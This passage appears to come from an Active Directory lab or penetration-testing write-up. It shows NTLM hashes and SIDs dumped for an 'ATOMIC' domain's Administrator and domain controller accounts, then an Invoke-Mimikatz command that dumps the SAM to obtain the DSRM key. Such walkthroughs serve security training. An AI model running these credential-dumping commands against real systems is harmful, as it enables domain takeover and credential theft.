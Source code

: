 As shown, we obtain the Enterprise Admin NTLM:<br/>
`c49927a1eb5a335dfb681db95d3a45a2`

<br/>

```
ATOMIC\Administrator:
SID:   S-1-5-21-95921459-2896253700-3873779052-500
NTLM:  c49927a1eb5a335dfb681db95d3a45a2

ATOMIC\ATOMIC-DC$
SID:   S-1-5-90-0-1
NTLM:  f2a2a8b45cfc4d08481ab3c6e1b531e0
```

<br/>

Also dump the DSRM key:

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```

![picture 26](images/99f37e2a1bfefa77dac177d7a6adab97eb27e0bc1e1412c21a0be430435b4e2b.png)  
